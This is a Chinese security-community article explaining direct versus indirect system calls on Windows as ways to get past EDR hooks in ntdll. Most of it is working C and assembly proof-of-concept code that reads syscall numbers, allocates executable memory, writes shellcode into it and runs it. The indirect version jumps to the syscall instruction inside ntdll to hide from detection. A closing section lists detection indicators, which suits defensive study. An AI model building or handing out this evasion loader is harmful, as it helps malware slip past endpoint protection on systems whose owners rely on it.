





# 直接系统调用 VS 间接系统调用-先知社区

> **来源**: https://xz.aliyun.com/news/19093  
> **文章ID**: 19093

---

# 前言

上文中我们讲述了直接系统调用技术，它可以不使用ntdll中的Syscall（系统调用）指令，自己在代码中实现、用以绕过针对ntdll中函数的hook，特点是Syscall指令在程序自身的内存空间中，而不是ntdll的内存空间中，由此，AV/EDR也有了相应的检测机制，如果发现Syscall指令不在ntdll内存空间中，则将其视为可疑的IoC，攻击者为了消除这个IoC，间接系统调用技术在此背景下诞生

本文主要讲述间接系统调用，先回顾一下用户模式API Hook，然后是直接系统调用的实现细节，最后将直接系统调用改为间接系统调用，并分析二者的区别，并在文末介绍间接系统调用的一些限制

# 用户模式API Hook

用户模式API Hook让EDR能够动态审查Windows API，多数EDR会使用Inline Hook（内联Hook），在内存中插入jmp指令，使程序执行流程进入EDR的hooking.dll

当EDR研判当前Windows API不是恶意的，会跳转回ntdll.dll，并执行Syscall继续进入内核，如果研判当前Windows API是恶意的，则会终止执行



# 直接系统调用

躲避EDR对ntdll.dll进行hook的一个方式是直接系统调用，原理是自己实现Syscall指令，避免从ntdll中获取，基本原理如下

  
直接系统调用往往需要结合动态获取SSN，实现方式有多种，如Syswhispers2、Syswhispers3、Hells Gate、Halo's Gate，本文中我们不使用这些方式，保持一个简单的逻辑，并在后面基于这个代码改为间接系统调用

```
#include <windows.h>  
#include <stdio.h>    
#include "syscalls.h" 

// Declare global variables to hold syscall numbers
DWORD wNtAllocateVirtualMemory;
DWORD wNtWriteVirtualMemory;
DWORD wNtCreateThreadEx;
DWORD wNtWaitForSingleObject;

int main() {
    PVOID allocBuffer = NULL;  // Declare a pointer to the buffer to be allocated
    SIZE_T buffSize = 0x1000;  // Declare the size of the buffer (4096 bytes)

    // Get a handle to the ntdll.dll library
    HANDLE hNtdll = GetModuleHandleA("ntdll.dll");

    // Declare and initialize a pointer to the NtAllocateVirtualMemory function and get the address of the NtAllocateVirtualMemory function in the ntdll.dll module
    UINT_PTR pNtAllocateVirtualMemory = (UINT_PTR)GetProcAddress(hNtdll, "NtAllocateVirtualMemory");
    // Read the syscall number from the NtAllocateVirtualMemory function in ntdll.dll
    // This is typically located at the 4th byte of the function
    wNtAllocateVirtualMemory = ((unsigned char*)(pNtAllocateVirtualMemory + 4))[0];

    UINT_PTR pNtWriteVirtualMemory = (UINT_PTR)GetProcAddress(hNtdll, "NtWriteVirtualMemory");
    wNtWriteVirtualMemory = ((unsigned char*)(pNtWriteVirtualMemory + 4))[0];

    UINT_PTR pNtCreateThreadEx = (UINT_PTR)GetProcAddress(hNtdll, "NtCreateThreadEx");
    wNtCreateThreadEx = ((unsigned char*)(pNtCreateThreadEx + 4))[0];

    UINT_PTR pNtWaitForSingleObject = (UINT_PTR)GetProcAddress(hNtdll, "NtWaitForSingleObject");
    wNtWaitForSingleObject = ((unsigned char*)(pNtWaitForSingleObject + 4))[0];


    // Replace this with your actual shellcode
    unsigned char shellcode[] = "\xfc\x48\x83...";


    // Use the NtAllocateVirtualMemory function to allocate memory for the shellcode
    NtAllocateVirtualMemory((HANDLE)-1, (PVOID*)&allocBuffer, (ULONG_PTR)0, &buffSize, (ULONG)(MEM_COMMIT | MEM_RESERVE), PAGE_EXECUTE_READWRITE);
    
    ULONG bytesWritten;
    // Use the NtWriteVirtualMemory function to write the shellcode into the allocated memory
    NtWriteVirtualMemory(GetCurrentProcess(), allocBuffer, shellcode, sizeof(shellcode), &bytesWritten);

    HANDLE hThread;
    // Use the NtCreateThreadEx function to create a new thread that starts executing the shellcode
    NtCreateThreadEx(&hThread, GENERIC_EXECUTE, NULL, GetCurrentProcess(), (LPTHREAD_START_ROUTINE)allocBuffer, NULL, FALSE, 0, 0, 0, NULL);

    // Use the NtWaitForSingleObject function to wait for the new thread to finish executing
    NtWaitForSingleObject(hThread, FALSE, NULL);
}


// Declare and initialize a pointer to the NtAllocateVirtualMemory function and get the address of the NtAllocateVirtualMemory function in the ntdll.dll module    
UINT_PTR pNtAllocateVirtualMemory = (UINT_PTR)GetProcAddress(hNtdll, "NtAllocateVirtualMemory");
    // Read the syscall number from the NtAllocateVirtualMemory function in ntdll.dll
    // This is typically located at the 5th byte of the function
    wNtAllocateVirtualMemory = ((unsigned char*)(pNtAllocateVirtualMemory + 4))[0];
```

和我的其他文章一样，我们使用本机API NtAllocateVirtualMemory来分配内存，NtWriteVirtualMemory将shellcode写入已分配的内存中，NtCreateThreadEx在新线程中执行shellcode，并使用NtWaitForSingleObject确保主线程等待当前执行shellcode的线程完成。正如开头所提到的，在使用直接系统调用时，各自本机函数（stub）的代码通常通过ntdll.dll获取，在.asm文件中直接实现到汇编语言中，如下

```
EXTERN wNtAllocateVirtualMemory:DWORD               ; Extern keyword indicates that the symbol is defined in another module. Here it's the syscall number for NtAllocateVirtualMemory.
EXTERN wNtWriteVirtualMemory:DWORD                  ; Syscall number for NtWriteVirtualMemory.
EXTERN wNtCreateThreadEx:DWORD                      ; Syscall number for NtCreateThreadEx.
EXTERN wNtWaitForSingleObject:DWORD                 ; Syscall number for NtWaitForSingleObject.


.CODE  ; Start the code section

; Procedure for the NtAllocateVirtualMemory syscall
NtAllocateVirtualMemory PROC
    mov r10, rcx                                    ; Move the contents of rcx to r10. This is necessary because the syscall instruction in 64-bit Windows expects the parameters to be in the r10 and rdx registers.
    mov eax, wNtAllocateVirtualMemory               ; Move the syscall number into the eax register.
    syscall                                         ; Execute syscall.
    ret                                             ; Return from the procedure.
NtAllocateVirtualMemory ENDP                        ; End of the procedure.

; Similar procedures for NtWriteVirtualMemory syscalls
NtWriteVirtualMemory PROC
    mov r10, rcx
    mov eax, wNtWriteVirtualMemory
    syscall
    ret
NtWriteVirtualMemory ENDP

; Similar procedures for NtCreateThreadEx syscalls
NtCreateThreadEx PROC
    mov r10, rcx
    mov eax, wNtCreateThreadEx
    syscall
    ret
NtCreateThreadEx ENDP

; Similar procedures for NtWaitForSingleObject syscalls
NtWaitForSingleObject PROC
    mov r10, rcx
    mov eax, wNtWaitForSingleObject
    syscall
    ret
NtWaitForSingleObject ENDP

END  ; End of the module


EXTERN wNtAllocateVirtualMemory:DWORD               ; Extern keyword indicates that the symbol is defined in another module. Here it's the syscall number for NtAllocateVirtualMemory.
EXTERN wNtWriteVirtualMemory:DWORD                  ; Syscall number for NtWriteVirtualMemory.
EXTERN wNtCreateThreadEx:DWORD                      ; Syscall number for NtCreateThreadEx.
EXTERN wNtWaitForSingleObject:DWORD                 ; Syscall number for NtWaitForSingleObject.
```

如上所述，在使用四个本地API的情况下，我们避免访问ntdll.dll，并将相应的Native API的必要代码（存根）作为汇编代码实现在.asm文件中。汇编代码执行以下任务。首先，将寄存器rcx的当前内容写入寄存器r10，使用mov r10 rcx。然后将变量wNtAllocateVirtualMemory的当前内容移动到寄存器eax中，使用mov eax wNtAllocateVirtualMemory。提醒：此时全局声明的变量wNtAllocateVirtualMemory包含对本地API NtAllocateVirtualMemory系统调用号码。然后使用syscall语句执行系统调用syscall，并最终使用ret语句执行返回语句。其他本地API（NtWriteVirtualMemory、NtCreateThreadEx、NtWaitForSingleObject）也采用相同过程。

# 间接系统调用

间接系统调用是直接系统调用的进化，相比较直接系统调用，间接系统调用可以解决以下问题

* syscall语句位于ntdll.dll中，对AV/EDR来说是合法的
* return语句的执行位于ntdll.dll中

在实现上，间接系统调用自己实现一部分syscall stub，剩余的syscall stub和return语句在ntdll中



间接系统调用代码是基于直接系统调用代码改进的，并且改动很小，

```
#include <windows.h>  
#include <stdio.h>    
#include "syscalls.h"

// Declare global variables to hold syscall numbers and syscall instruction addresses
DWORD wNtAllocateVirtualMemory;
UINT_PTR sysAddrNtAllocateVirtualMemory;
DWORD wNtWriteVirtualMemory;
UINT_PTR sysAddrNtWriteVirtualMemory;
DWORD wNtCreateThreadEx;
UINT_PTR sysAddrNtCreateThreadEx;
DWORD wNtWaitForSingleObject;
UINT_PTR sysAddrNtWaitForSingleObject;


int main() {
    PVOID allocBuffer = NULL;  // Declare a pointer to the buffer to be allocated
    SIZE_T buffSize = 0x1000;  // Declare the size of the buffer (4096 bytes)

    // Get a handle to the ntdll.dll library
    HANDLE hNtdll = GetModuleHandleA("ntdll.dll");

    // Declare and initialize a pointer to the NtAllocateVirtualMemory function and get the address of the NtAllocateVirtualMemory function in the ntdll.dll module
    UINT_PTR pNtAllocateVirtualMemory = (UINT_PTR)GetProcAddress(hNtdll, "NtAllocateVirtualMemory");
    // Read the syscall number from the NtAllocateVirtualMemory function in ntdll.dll
    // This is typically located at the 4th byte of the function
    wNtAllocateVirtualMemory = ((unsigned char*)(pNtAllocateVirtualMemory + 4))[0];

    // The syscall stub (actual system call instruction) is some bytes further into the function. 
    // In this case, it's assumed to be 0x12 (18 in decimal) bytes from the start of the function.
    // So we add 0x12 to the function's address to get the address of the system call instruction.
    sysAddrNtAllocateVirtualMemory = pNtAllocateVirtualMemory + 0x12;

    UINT_PTR pNtWriteVirtualMemory = (UINT_PTR)GetProcAddress(hNtdll, "NtWriteVirtualMemory");
    wNtWriteVirtualMemory = ((unsigned char*)(pNtWriteVirtualMemory + 4))[0];
    sysAddrNtWriteVirtualMemory = pNtWriteVirtualMemory + 0x12;

    UINT_PTR pNtCreateThreadEx = (UINT_PTR)GetProcAddress(hNtdll, "NtCreateThreadEx");
    wNtCreateThreadEx = ((unsigned char*)(pNtCreateThreadEx + 4))[0];
    sysAddrNtCreateThreadEx = pNtCreateThreadEx + 0x12;

    UINT_PTR pNtWaitForSingleObject = (UINT_PTR)GetProcAddress(hNtdll, "NtWaitForSingleObject");
    wNtWaitForSingleObject = ((unsigned char*)(pNtWaitForSingleObject + 4))[0];
    sysAddrNtWaitForSingleObject = pNtWaitForSingleObject + 0x12;

    // Use the NtAllocateVirtualMemory function to allocate memory for the shellcode
    NtAllocateVirtualMemory((HANDLE)-1, (PVOID*)&allocBuffer, (ULONG_PTR)0, &buffSize, (ULONG)(MEM_COMMIT | MEM_RESERVE), PAGE_EXECUTE_READWRITE);

    // Define the shellcode to be injected
    unsigned char shellcode[] = "\xfc\x48\x83";

    ULONG bytesWritten;
    // Use the NtWriteVirtualMemory function to write the shellcode into the allocated memory
    NtWriteVirtualMemory(GetCurrentProcess(), allocBuffer, shellcode, sizeof(shellcode), &bytesWritten);

    HANDLE hThread;
    // Use the NtCreateThreadEx function to create a new thread that starts executing the shellcode
    NtCreateThreadEx(&hThread, GENERIC_EXECUTE, NULL, GetCurrentProcess(), (LPTHREAD_START_ROUTINE)allocBuffer, NULL, FALSE, 0, 0, 0, NULL);

    // Use the NtWaitForSingleObject function to wait for the new thread to finish executing
    NtWaitForSingleObject(hThread, FALSE, NULL);
}


UINT_PTR pNtAllocateVirtualMemory = (UINT_PTR)GetProcAddress(hNtdll, "NtAllocateVirtualMemory");
wNtAllocateVirtualMemory = ((unsigned char*)(pNtAllocateVirtualMemory + 4))[0];
sysAddrNtAllocateVirtualMemory = pNtAllocateVirtualMemory + 0x12;
```

相比较直接系统调用POC，在间接系统调用中，我们想要动态提取的不仅是SSN，还有syscall指令的内存地址，通过sysAddrNtAllocateVirtualMemory = pNtAllocateVirtualMemory + 0x12，这是必要的，获取它的地址后，才能替换为jmp指令，指向ntdll.dll中的syscall指令

```
EXTERN wNtAllocateVirtualMemory:DWORD               ; Extern keyword indicates that the symbol is defined in another module. Here it's the syscall number for NtAllocateVirtualMemory.
EXTERN sysAddrNtAllocateVirtualMemory:QWORD         ; The actual address of the NtAllocateVirtualMemory syscall instruction in ntdll.dll.

EXTERN wNtWriteVirtualMemory:DWORD                  ; Syscall number for NtWriteVirtualMemory.
EXTERN sysAddrNtWriteVirtualMemory:QWORD            ; The actual address of the NtWriteVirtualMemory syscall instruction in ntdll.dll.

EXTERN wNtCreateThreadEx:DWORD                      ; Syscall number for NtCreateThreadEx.
EXTERN sysAddrNtCreateThreadEx:QWORD                ; The actual address of the NtCreateThreadEx syscall instruction in ntdll.dll.

EXTERN wNtWaitForSingleObject:DWORD                 ; Syscall number for NtWaitForSingleObject.
EXTERN sysAddrNtWaitForSingleObject:QWORD           ; The actual address of the NtWaitForSingleObject syscall instruction in ntdll.dll.

.CODE  ; Start the code section

; Procedure for the NtAllocateVirtualMemory syscall
NtAllocateVirtualMemory PROC
    mov r10, rcx                                    ; Move the contents of rcx to r10. This is necessary because the syscall instruction in 64-bit Windows expects the parameters to be in the r10 and rdx registers.
    mov eax, wNtAllocateVirtualMemory               ; Move the syscall number into the eax register.
    jmp QWORD PTR [sysAddrNtAllocateVirtualMemory]  ; Jump to the actual syscall.
NtAllocateVirtualMemory ENDP                        ; End of the procedure.


; Similar procedures for NtWriteVirtualMemory syscalls
NtWriteVirtualMemory PROC
    mov r10, rcx
    mov eax, wNtWriteVirtualMemory
    jmp QWORD PTR [sysAddrNtWriteVirtualMemory]
NtWriteVirtualMemory ENDP


; Similar procedures for NtCreateThreadEx syscalls
NtCreateThreadEx PROC
    mov r10, rcx
    mov eax, wNtCreateThreadEx
    jmp QWORD PTR [sysAddrNtCreateThreadEx]
NtCreateThreadEx ENDP


; Similar procedures for NtWaitForSingleObject syscalls
NtWaitForSingleObject PROC
    mov r10, rcx
    mov eax, wNtWaitForSingleObject
    jmp QWORD PTR [sysAddrNtWaitForSingleObject]
NtWaitForSingleObject ENDP

END


;Indirect Syscalls
; Procedure for the NtAllocateVirtualMemory syscall
NtAllocateVirtualMemory PROC
    mov r10, rcx                                    ; Move the contents of rcx to r10. This is necessary because the syscall instruction in 64-bit Windows expects the parameters to be in the r10 and rdx registers.
    mov eax, wNtAllocateVirtualMemory               ; Move the syscall number into the eax register.
    jmp QWORD PTR [sysAddrNtAllocateVirtualMemory]  ; Jump to the actual syscall.
NtAllocateVirtualMemory ENDP                        ; End of the procedure.


;Direct Syscalls
; Procedure for the NtAllocateVirtualMemory syscall
NtAllocateVirtualMemory PROC
    mov r10, rcx                                    ; Move the contents of rcx to r10. This is necessary because the syscall instruction in 64-bit Windows expects the parameters to be in the r10 and rdx registers.
    mov eax, wNtAllocateVirtualMemory               ; Move the syscall number into the eax register.
    syscall                                         ; Execute syscall.
    ret                                             ; Return from the procedure.
NtAllocateVirtualMemory ENDP                        ; End of the procedure.
```

比较直接系统调用和间接系统调用，可以看到间接系统调用中，只有一部分Syscall存根（Syscall stub）被映射为汇编代码，另外在间接系统调用中，SSN是被动态读取，并存储在一个全局变量中，然而，不像直接系统调用，间接系统调用替换syscall指令为无条件的jmp，使用了一个指针指向ntdll中的syscall指令

  
和下图

  
我们编译了间接系统调用POC，并在x64dbg中打开它，相比较直接系统调用，可以看到syscall语句没有执行在当前程序中，相反syscall指令被替换为jump指令，指向ntdll中的syscall指令地址，这确保了syscall指令和return语句执行在ntdll中

# 总结

对于检测，我们可以基于直接系统调用和间接系统调用上下文中的IoC去检测它们，比如

* syscall指令的执行是否在ntdll.dll的内存空间中
* return指令的执行是否在ntdll.dll中，并且从ntdll.dll的内存空间跳转到执行程序的内存空间，尽管这比直接系统调用隐蔽一些，但在某些AV/EDR中依旧会被标识，比如检查调用栈的AV/EDR

间接系统调用是直接系统调用的改进，但也有它的局限，例如使用间接系统调用可以伪造返回地址，将后续返回的内存地址放置在调用堆栈顶部，并绕过EDR的返回地址检查，然后，如果EDR使用了ETW，它将可以检查整个调用栈是否有不正确的行为，单独使用间接系统调用不足以绕过使用ETW的EDR，还需要配合调用栈欺骗

直接系统调用的特征是syscall指令、return指令都在执行程序的内存空间，并且return指令的指向也是从当前程序的内存空间到当前程序的内存空间

间接系统调用的syscall指令、return指令都在ntdll.dll的内存空间，但是return指令的指向是从ntdll.dll的内存空间到当前程序的内存空间，消除了直接系统调用的一些特征

想要动态的从一个“全新的”或者“Unhooked”的Native API中获取SSN（Syscall Number/Syscall ID）,可以使用[Halo's Gate技术](https://blog.sektor7.net/#!res/2021/halosgate.md)（它是Hell's Gate技术的进化）By Halo's Gate创建者 [@SEKTOR7net](https://x.com/SEKTOR7net)，还可参考[EDR Bypass : Retrieving Syscall ID with Hell's Gate, Halo's Gate, FreshyCalls and Syswhispers2](https://web.archive.org/web/20250624082010/https://alice.climent-pommeret.red/posts/direct-syscalls-hells-halos-syswhispers2/)，By [@AliceCliment](https://x.com/AliceCliment)

间接系统调用的另外一个限制是，如果EDR使用了ETW，将不仅检查调用栈顶的返回地址，还会检查调用栈，这种情况下，光使用间接系统就不够了，还需要配合调用栈欺骗等问题
